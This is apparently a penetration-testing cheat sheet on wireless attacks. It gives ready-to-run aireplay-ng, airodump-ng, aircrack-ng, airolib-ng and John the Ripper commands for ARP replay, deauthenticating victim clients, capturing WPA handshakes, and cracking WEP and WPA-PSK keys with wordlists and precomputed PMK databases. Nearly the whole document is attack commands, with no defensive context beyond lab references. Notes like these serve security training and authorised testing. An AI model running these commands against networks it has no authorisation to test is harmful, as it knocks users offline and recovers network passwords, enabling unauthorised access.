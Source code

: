 ```powershell
# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# deauthentication attack on the connected client
# speed the ARP attack process using deauth
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK: aireplay-ng –-deauth 1 –a $AP_MAC -h <FakedMac> wlan0mon

# crack the WEP key
aircrack-ng sharedkey.cap
```

### Cracking WPA PSK

#### Cracking WPA with John the Ripper

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wpajohn mon0 # see no client

# deauthentication to get the WPA handshake (Sniffing should show the 4-way handshake)
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# crack without john the ripper (-b <BSSID>)
aircrack-ng -0 -w /pentest/passwords/john/password.lst wpajohn-01.cap
aircrack-ng -0 -w /pentest/passwords/john/password.lst wpajohn-01.cap 
aircrack-ng -w password.lst,secondlist.txt wpajohn-01.cap # multiple dicts

# crack with john the ripper - combine mangling rules with aircrack
# rules example to add in /pentest/passwords/john/john.conf
# $[0-9]$[0-9]
# $[0-9]$[0-9]$[0-9]
john --wordlist=/pentest/wireless/aircrack-ng/test/password.lst --rules --stdout | aircrack-ng -0 -e $AP_SSID -w - /root/wpajohn

# generate PMKs for a faster cracking - Precomputed WPA Keys Database Attack
echo wifu > essid.txt
airolib-ng test.db --import essid essid.txt
airolib-ng test.db --stats
airolib-ng test.db --import passwd /pentest/passwords/john/password.lst
airolib-ng test.db --batch
airolib-ng test.db --stats
aircrack-ng -r test.db wpajohn-01.cap
# airolib-ng test.db --clean all

# Not in lab - Convert to hccap to use with John Jumbo
aircrack-ng <FileName>.cap -J <outFile>
hccap2john <outFile>.hccap > <JohnOutFile>
john <JohnOutFile>
```
